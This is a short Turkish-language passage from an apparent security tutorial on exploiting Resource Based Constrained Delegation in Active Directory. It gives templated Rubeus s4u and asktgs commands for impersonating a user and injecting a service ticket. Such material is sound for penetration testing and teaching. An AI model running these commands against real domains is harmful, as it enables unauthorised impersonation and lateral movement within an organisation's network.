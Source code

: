 ## Exploitation

Resource Based Constrained Delegation (RBCD) zafiyeti Rubeus, Mimikatz ve farklı araçlarla sömürülebilmektedir. RBCD tanımı ile yetkilendirilmiş hesaplar ele geçirildiklerinde, kendisi için erişim yetkisi verilmiş servisler için ST bileti elde edebilmektedir. Rubeus s4u modülü ile zafiyetli durumdan yararlanarak servis erişim bileti elde edebiliriz.

```powershell
Rubeus.exe s4u /user:<erişim sağlaycak kullanıcı>> /rc4:<rc4 ile şifrelinmiş parola> /msdsspn:<RBCD tanımlanmış hesap> /impersonateuser:
```

![Rubeus aracı ile bilet oluşturulması](images/5.png)

Elde edilen TGS bileti ile bağlanılmak istenen servis için Rubeus asktgs modülü ile ST bileti elde edilebilmektedir. 

```powershell
Rubeus.exe asktgs /service:<erişilmek istenen servis> /ticket:<TGS> /ptt
```

![ST bileti elde edilerek sisteme inject edilmesi](images/6.png)
